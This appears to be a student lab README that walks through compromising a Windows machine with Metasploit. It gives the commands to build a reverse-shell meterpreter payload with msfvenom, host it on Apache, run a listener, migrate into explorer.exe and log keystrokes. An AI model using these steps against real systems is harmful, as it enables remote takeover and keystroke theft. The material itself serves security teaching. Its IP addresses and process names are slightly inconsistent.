 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:

![Alt text](img/ifconfig.png)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.228.13 -f exe > fun.exe
## OUTPUT:
![Alt text](img/msvenom.png)
![Alt text](img/venom2.png)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Alt text](img/sudocpy.png)
Start apache server
sudo systemctl apache2 start

![Alt text](img/apache2.png)

Invoke msfconsole:
## OUTPUT:
![Alt text](img/msfconsole.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Alt text](img/help.png)
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![Alt text](img/keyscan.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![Alt text](<img/apache server.png>) 
Bypass any warning boxes, double-click the file, and allow it to run.
![Alt text](img/fun.png)
On kali give the command exploit

![Alt text](img/keyscan.png)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![Alt text](img/meterpreter.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Alt text](img/netstat.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Alt text](img/notepad.png)
keyscan_dump	Shows the keystrokes captured so far
![Alt text](img/keyscan.png)
## RESULT:
The Metasploit framework  is  used to compromise windows and is examined successfully
